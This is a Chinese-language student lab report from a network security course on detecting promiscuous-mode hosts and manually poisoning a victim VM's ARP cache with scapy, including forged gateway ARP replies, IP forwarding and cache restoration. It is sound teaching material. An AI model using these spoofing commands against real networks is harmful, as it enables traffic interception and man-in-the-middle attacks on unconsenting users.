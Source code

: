 # 💻实验四 网络监听

### 实验环境

#### 拓扑结构

<img src="img/Topology.png" alt="Topology" style="zoom:50%;" />

#### 网络配置及arp表

- **网关**

  `08:00:27:11:54:d2`/`enp0s9`

  `172.16.111.1`

  <img src="img/gateway%20address.png" alt="gateway address" style="zoom: 33%;" />

- **攻击者**

  `08:00:27:49:1b:10`/`eth0`

  `10.0.2.15`

<img src="img/attackip.png" alt="attackip" style="zoom:50%;" />

- **受害者**

`08:00:27:45:77:6f`/`eth0`

`192.168.56.108`

<img src="img/victim%20ip.png" alt="victim ip" style="zoom:50%;" />

## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```shell
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![complete translation](img/complete%20translation.png)

## 实验一：检测局域网中的异常终端

```shell
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth1
```

![Victim promiscuous mode](img/Victim%20promiscuous%20mode.png)

```shell
# 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
sudo scapy
```

![start scapy](img/start%20scapy.png)

```shell
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("192.168.56.108")
```

![grab](img/grab.png)

```shell
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth1 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth1
```

![Turn on promiscuous](img/Turn%20on%20promiscuous.png)

```shell
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("192.168.56.108")
```

![grap1](img/grap1.png)

```shell
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

查阅资料，promiscping 命令会发送 ARP who-has 请求。

> - 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
> - 普通模式 网卡只接收发给本机的包

可以看出在混杂模式下，受害者主机才能收到这个数据包。

在受害者主机上开启Wireshark抓包，也验证了这个问题。发送的包并没有指定目的主机的MAC地址，所以普通模式下发送不会成功

![grap2](img/grap2.png)

<img src="img/wireshark_arp.png" alt="wireshark_arp" style="zoom:67%;" />

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

### 获取当前局域网的网关 MAC 地址

```shell
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.0.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![fake arp package](img/fake%20arp%20package.png)

```shell
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![arp broadcast request](img/arp%20broadcast%20request.png)

### 伪造网关的 ARP 响应包

```shell
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="192.168.56.108", hwdst="08:00:27:d4:65:43")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![send fake arp](img/send%20fake%20arp.png)

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```shell
ip neigh
```

![Forged successfully](img/Forged%20successfully.png)

### 恢复受害者主机的 ARP 缓存记录

```shell
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:11:54:d2", pdst="192.168.56.108", hwdst="08:00:27:d4:65:43")
sendp(restorepkt1, count=100, inter=0.2)
```

![Fake gateway to send arp](img/Fake%20gateway%20to%20send%20arp.png)

此时在受害者主机上准备“刷新”网关 ARP 记录。

```shell
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![Finish](img/Finish.png)

## 遇到的问题和解决方案

- **问题1:在给kali-attacker开启内部网络intnet1网卡后查看其ip地址表，内部网络对应的网卡仍然没有分配ip地址**

- 解决方法:

- ```shell
  sudo vim /etc/network/interfaces
  ```

<img src="img/question.png" alt="question" style="zoom:75%;" />

- **问题2:arpspoof命令语句使用无误，但无法正常污染靶机的arp表**
- 解决方法：打开虚拟机IP转发功能

```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
```

- **问题3：伪造的网关ARP相应包发不出去**

  **解决方法：** 在构造ARP相应包时添加数据链路层Ether()

```shell
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="192.168.56.108", hwdst="08:00:27:d4:65:43")
```

![send fake arp](img/send%20fake%20arp.png)

- **总结**
  - 通过`arpspoof`可以污染靶机的arp表，使其无法正常上网
  - arp缓存表定时更新，被污染的arp一会儿就变正常了，因此实验时是一边发送arp响应一边进行抓包
  - 如果要实现中间人攻击还需要将靶机的数据包进行转发

## 参考资料

- [2022-Fall Cybersecurity Courseware](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [wireshark promiscuous mode capture](https://www.wireshark.org/lists/ethereal-users/200302/msg00258.html)
- [kali-linux configures nat mode to connect to the network](https://blog.csdn.net/Ahuuua/article/details/108575907)



